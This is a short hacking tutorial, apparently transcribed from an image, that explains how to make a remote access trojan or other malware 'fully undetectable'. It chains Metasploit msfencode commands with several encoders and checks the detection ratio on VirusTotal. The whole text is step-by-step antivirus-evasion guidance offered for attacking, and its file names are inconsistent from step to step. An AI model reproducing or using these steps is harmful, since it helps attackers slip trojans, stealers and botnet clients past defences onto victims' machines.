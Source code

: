 How to FUD a RAT stub with
Backtrack
Requirements:-
1. Backtrack Operating System
2. MSF encoders
So, our first step is to create a virus
file with any of the tools like RAT,
stealers, botnets, payload or
anything. To make it FUD (Fully
Undetectable), we use backtrack.
Before going to FUD check your file
with ant viruses at virustotal.com
and we get a detection ratio for
example lets say 30/44
Now start terminal in Backtrack and
navigate to the directory where your
file is located.
E.g. cd Desktop
So our first step is to change the
permissions of that file (775) by
typing this command
root@bt:~/Desktop# chmod 775
stub.exe
Further type this command to encode
your virus,
root@bt:~/Desktop# msfencode -i /
root/Desktop/Server.exe -t raw -o
/root/Desktop/stub2.exe -e x86/
shikata_ga_nai -c 10
You’ll notice Antivirus still detected it
even though we encoded it 10 times
with
“x86/shikata_ga_nai” encoder.
Now again change the permissions of
this output file,
root@bt:~/Desktop# chmod 775
server2.exe
Now 2nd time, we use another
encoder named as “jmp_call_addit
ive”
root@bt:~/Desktop# msfencode -i /
root/Desktop/Server2.exe -t raw -o
/root/Desktop/Server3.exe -e x86/
jmp_call_additive -c 1
Now again change the permissions of
this output file,
root@bt:~/Desktop# chmod 775
server3.exe
Now again we use another encoder
named as “call4_dword_xor”
root@bt:~/Desktop# msfencode -i /
root/Desktop/Server3.exe -t raw -o
/root/Desktop/Server4.exe -e x86/
call4_dword_xor -c 1
Now again change the permissions of
this output file,
root@bt:~/Desktop# chmod 775
server4.exe
Now final we encode again with this
encoder “shikata_ga_nai”
root@bt:~/Desktop# msfencode -i /
root/Desktop/Server4.exe -o
/root/Desktop/final.exe -e x86/
shikata_ga_nai -c 1
Now again change the permissions of
this output file,
root@bt:~/Desktop# chmod 775
final.exe
Now you'll get a final.exe, upload it to
virustotal.com and you’ll see the
results...

